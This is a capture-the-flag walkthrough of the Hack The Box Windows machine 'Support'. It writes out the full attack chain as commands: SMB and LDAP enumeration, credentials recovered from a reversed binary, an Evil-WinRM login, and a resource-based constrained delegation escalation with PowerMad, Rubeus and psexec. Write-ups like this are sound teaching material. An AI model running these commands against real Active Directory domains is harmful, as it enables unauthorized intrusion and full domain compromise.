 ## HTB: Support Walkthrough

### Box Info
- **Name**: Support
- **Release Date**: 30 Jul 2022
- **Retire Date**: 17 Dec 2022
- **OS**: [Windows](Windows.md)
- **Difficulty**: Easy (OSCP-like, OSEP-like)
- **Points**: 20

---

### Recon

#### Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 10.10.11.174
```
Key Ports:
- 53 [DNS](DNS)
- 88 [Kerberos](Kerberos)
- 389 [LDAP](LDAP)
- 445 [SMB](SMB)
- 5985 [WinRM](WinRM.md)

#### Named Contexts from LDAP
```
ldapsearch -h support.htb -x -s base namingcontexts
```
Main context:
```
DC=support,DC=htb
```

#### Hosts File Entries
```
10.10.11.174 dc.support.htb support.htb
```

---

### SMB Enumeration

#### List Shares
```
smbclient -N -L //support.htb
```
Interesting share:
```
support-tools
```

#### Access support-tools
```
smbclient -N //support.htb/support-tools
```
Found:
```
UserInfo.exe.zip
```

---

### Reverse Engineering UserInfo.exe

1. Extracted `UserInfo.exe.zip`
2. Ran `.\UserInfo.exe find -first '*'` to enumerate users
3. Located LDAP bind credentials in C# source via DNSpy:
   - **Username**: `support\ldap`
   - **Password (after decoding)**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

### LDAP Search with Credentials
```
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

Found account:
```
support
info: Ironside47pleasure40Watchful
```

### Evil-WinRM Shell as support
```
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```
Got user flag:
```
C:\Users\support\Desktop> type user.txt
```

---

### BloodHound Analysis
- **Group**: Shared Support Accounts
- **Privilege**: GenericAll on `DC.SUPPORT.HTB`

---

### RBCD Attack (Resource-Based Constrained Delegation)

#### Upload tools:
- PowerView.ps1
- PowerMad.ps1
- Rubeus.exe

#### Add Fake Computer
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```

#### Set RBCD ACL
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;${fakesid})"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject -Identity "DC" -Set @{"msds-allowedtoactonbehalfofotheridentity"=$SDBytes}
```

#### Get Hash and Impersonate
```
Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:<RC4_HASH> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

---

### Remote Shell as Administrator

#### Export ticket and convert:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```

#### Use psexec:
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

Got root flag:
```
C:\Users\Administrator\Desktop> type root.txt
```

---

### Beyond Root: Windows vs Linux Auth

- On Linux, captured cleartext LDAP credentials via Wireshark
- On Windows, NTLMSSP is used and credentials are not in plaintext
- Wireshark shows `simple` vs `sasl` difference in `bindRequest`

---

### Summary
- **Initial Foothold**: Reversed a .NET EXE to extract LDAP creds
- **User Access**: Found support user password in LDAP info field
- **Privilege Escalation**: Performed RBCD by adding a fake computer and impersonating Administrator via S4U2self/S4U2proxy